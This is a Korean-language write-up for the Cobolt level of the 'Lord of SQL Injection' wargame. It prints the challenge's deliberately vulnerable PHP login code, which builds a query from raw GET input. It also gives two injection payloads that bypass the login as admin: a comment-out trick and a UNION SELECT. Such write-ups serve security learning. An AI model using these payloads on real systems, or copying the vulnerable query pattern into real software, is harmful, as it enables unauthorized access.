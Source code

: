 # Lord of SQL Injection No.1 - Cobolt
## 문제 출제 의도
1. MYSQL에서 원하는 값을 가져 올 수 있는지 확인.
2. PHP에서 GET방식의 입력값을 조작 가능한지 확인.
## 소스 코드
~~~
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
~~~
## 소스 코드 분석
+ md5()
  - 문자열의 md5 해시를 계산한다.
  - md5 함수는 다음과 같은 형식을 취한다.
  ~~~
  string md5 ( string $str [, bool $raw_output ] )
  ~~~
  - $raw_output
    * 값이 TRUE이면, 해시를 길이 16의 바이너리 형식으로 반환한다.
    * 기본값은 FALSE이다.
  - 16진수 32 문자로 해시를 반환한다.
## 분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 id값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~ "이 출력되고 문제 풀이에 실패한다.
+ pw값은 입력받은 뒤에 md5함수에 의해 암호화 된다.
+ 풀이 성공 조건
    - 데이터베이스에서 받은 값이 'admin' 이면 문제 해결에 성공한다.
## 문제 해결
1. WHERE 조건절 조작
    - id값을 '(single quote)를 이용하여 조작 가능하다.
    - 다음과 유사한 방법들로 WHERE 조건절을 조작 할 수 있다.
    ~~~
    ?id=admin' -- -
    ~~~
    - id가 'admin'인 레코드의 데이터를 불러온다.
2. UNION
    - 다음과 유사한 방법으로 빈 테이블에 추가 값을 가지고 올 수 있다.
    ~~~
    ?id=' UNION(SELECT 'admin') -- -
    ~~~